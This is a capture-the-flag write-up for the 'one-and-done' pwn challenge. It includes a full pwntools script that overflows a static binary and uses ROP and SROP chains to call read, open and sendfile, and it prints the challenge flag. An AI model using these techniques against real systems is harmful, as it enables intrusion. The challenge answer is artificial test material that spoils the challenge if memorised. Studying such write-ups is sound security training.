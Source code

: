 ## Question 

Author: Addison

It's trivial, but not! There are no other files in the target than this binary and the flag at /pwn/flag.txt, so you can't use anything else!

SNI: one-and-done

[one-and-done](one-and-done)

## Solution

The problem says there are no other files on the target. Given the ```syscall, ret``` gadget in the binary, we can just make syscalls to ```read``` in the ```/pwn/flag.txt\0```, then ```open``` the file and ```sendfile``` to standard out. The ```read``` and ```open``` syscalls only need three arguments, so we can populate the arguments with a ROP chain for each call. The ```sendfile``` needs four arguments. Since we don't have a ```pop r10, ret``` like gadget, we'll use a SROP chain to populate the arguments for the ```sendfile``` syscall. 

```python
from pwn import *
import time

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = '''
break *0x401d89
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote("tamuctf.com", 443, ssl=True, sni="one-and-done")
    else:
        return process(e.path)

p = start()

pop_rax = r.find_gadget(['pop rax','ret'])[0]
pop_rdi = r.find_gadget(['pop rdi','ret'])[0]
pop_rsi = r.find_gadget(['pop rsi','ret'])[0]
pop_rdx = r.find_gadget(['pop rdx','ret'])[0]

syscall_ret = 0x401d89 
writeable_mem = 0x4053d8


def pause():
    time.sleep(1)

def rop_read():
    '''call read(rdi=0x0,rsi=writeable_mem,rdx=0x20)'''
    chain = p64(pop_rax)
    chain += p64(constants.SYS_read)
    chain += p64(pop_rdi)
    chain += p64(0x0)
    chain += p64(pop_rsi)
    chain += p64(writeable_mem)
    chain += p64(pop_rdx)
    chain += p64(0x20)
    chain += p64(syscall_ret)    
    chain += p64(e.sym['main'])
    return chain

def rop_open():
    ''' call open(rdi=writeable_mem, rsi=0x0, rdx=0x0)'''
    chain = p64(pop_rax)
    chain += p64(constants.SYS_open)
    chain += p64(pop_rdi)
    chain += p64(writeable_mem)
    chain += p64(pop_rsi)
    chain += p64(0x0)
    chain += p64(pop_rdx)
    chain += p64(0x0)
    chain += p64(syscall_ret)
    chain += p64(e.sym['main']) 
    return chain

def srop_sendfile():
    '''call sendfile(rdi=0x1, rsi=0x3, rdx=0x0, r10=0x7fffffff)'''
    chain = p64(pop_rax)
    chain += p64(0xf)
    chain += p64(syscall_ret)

    frame = SigreturnFrame(arch="amd64", kernel="amd64")
    frame.rax = constants.SYS_sendfile
    frame.rdi = 0x1
    frame.rsi = 0x3 # fd is static
    frame.rdx = 0x0
    frame.r10 = 0x7fffffff
    frame.rip = syscall_ret

    return chain+bytes(frame)

pad = cyclic(296)

def sys_read():
   p.recvuntil(b"pwn me pls")
   log.info("Sending Stage1: ROP Read()")
   p.sendline(pad+rop_read())

def pwn_flag():
   pause()
   log.info("Sending Bytes: /pwn/flag.txt\\0")
   p.sendline(b"/pwn/flag.txt\0")

def sys_open():
   pause()
   log.info("Sending Stage2: ROP Open()")
   p.sendline(pad+rop_open())

def sys_sendfile():
   pause()
   log.info("Sending Stage3: SROP SendFile")
   p.sendline(pad+srop_sendfile())

sys_read()
pwn_flag()
sys_open()
sys_sendfile()

p.interactive()
```

Running it returns the flag

```
python3 pwn-one.py BIN=./one-and-done REMOTE
[*] '/root/workspace/tamu-ctf/one-and-done/one-and-done'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 48 cached gadgets for './one-and-done'
[+] Opening connection to tamuctf.com on port 443: Done
[*] Sending Stage1: ROP Read()
[*] Sending Bytes: /pwn/flag.txt\0
[*] Sending Stage2: ROP Open()
[*] Sending Stage3: SROP SendFile
[*] Switching to interactive mode

gigem{trivial_but_its_static} 
```
